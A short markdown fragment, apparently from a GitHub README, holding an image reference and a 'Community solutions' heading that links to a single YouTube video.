

### **Community solutions**

> [https://youtu.be/HjXUtCKm1FM](https://youtu.be/HjXUtCKm1FM)
>